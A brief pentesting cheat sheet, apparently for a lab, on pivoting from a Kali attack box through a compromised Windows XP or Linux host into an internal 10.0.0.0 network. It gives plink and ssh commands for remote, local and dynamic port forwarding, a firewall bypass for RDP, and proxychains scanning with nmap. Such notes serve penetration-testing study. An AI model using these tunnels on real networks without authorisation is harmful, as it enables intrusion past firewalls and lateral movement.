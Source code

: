
The Attacking Box (Kali Linux)   
IP: 192.168.1.16   
Netmask: 255.255.255.0   
Gateway: 192.168.1.1   

The pivot host (Windows XP) or linux     
User: lowuser   
FIRST IP: 192.168.1.30   
Netmask: 255.255.255.0   
SECOND IP: 10.0.0.2   
Netmask: 255.0.0.0    

Web server    
IP: 10.0.0.10   
Netmask: 255.0.0.0   

# Port Forwarding


### Remote Forwarding

To get to server at 10.0.0.10

From Target   
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:4444:10.0.0.10:80`   
`ssh -p 22  -R 127.0.0.1:4444:10.0.0.10:80 root@192.168.1.16`

From Kali   
`curl 127.0.0.1:4444`

### Local Forwarding

Firewall rule blocking 3389

From Target   
`plink 192.168.1.16 -P 22 -C -L 192.168.1.30:3390:192.168.1.30:3389`   
`ssh -p 22 -L 192.168.1.30:3390:192.168.1.30:3389 root@192.168.1.16`

From Kali   
`rdesktop 192.168.1.30:3390`

### dynamic forwarding

From target    
`plink 192.168.1.16 -P 22 -C -R 127.0.0.1:2222:22`    
`ssh -f -N -R 2222:127.0.0.1:22 root@192.168.1.16`

From Kali   
`ssh -f -N -D 127.0.0.1:8080 -p 2222 lowuser@127.0.0.1`

`vi /etc/proxychains.conf`   
`socks4   127.0.0.1   8080`

`proxychains nmap -sT -Pn <IP>`
